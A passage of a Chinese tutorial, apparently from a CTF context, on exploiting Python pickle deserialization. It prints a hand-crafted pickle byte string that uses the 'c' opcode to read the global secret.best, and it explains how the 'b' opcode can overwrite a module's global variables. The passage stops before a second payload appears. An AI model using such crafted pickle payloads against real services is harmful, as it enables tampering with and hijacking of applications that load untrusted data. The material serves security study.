 `于是就`可以将animal的值改为全局变量```中的secret.best

```python
import pickle
import sys

import secret
class animal:
    def __init__(self):
        self.animal="dog"
    def check(self):
        if self.animal ==secret.best:
            print(self.animal)
            print('good')

# print(sys.modules)
# a=pickle.dumps(animal(),protocol=3)
#b'\x80\x03c__main__\nanimal\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00animalq\x03X\x03\x00\x00\x00dogq\x04sb.'
a=b'\x80\x03c__main__\nanimal\nq\x00)\x81q\x01}q\x02X\x06\x00\x00\x00animalq\x03csecret\nbest\nq\x04sb.'
print(a)
b=pickle.loads(a)
b.check()
# cat
# good
```

### 修改全局变量

`c`操作码是通过调用`find_class`方法来获取对象，而`find_class`使用`_getattribute(sys.modules[module],name)`最终使用`getattr(sys.modules['__main__'],'secret')`来获取到相应的属性，`sys.modules`是一个全局字典，该字典是python启动后就加载在内存中的。每导入新的模块、`sys.modules`会将该模块导入字典中。

```python
print(getattr(sys.modules['__main__'],'secret'))
#
```

使用`c`操作码通过`__main__`模块索引secret模块，然后使用`} X s`等操作码构成`{"best":"binbin"}`

最后栈中剩下

```python
self=&gt;[secret(模块),{"best":"binbin"}]
```

然后使用`b`操作符，就可以修改secret模块中的beat

```python
import pickle
import sys

import secret
class animal:
    def __init__(self):
        self.animal="dog"
    def check(self):
        if self.animal ==secret.best:
            print(self.animal)
            print('good')
        else:
            print('no')

# print(sys.modules)
# a=pickle.dumps(animal(),protocol=3)
# print(sys.modules['__main__'])
```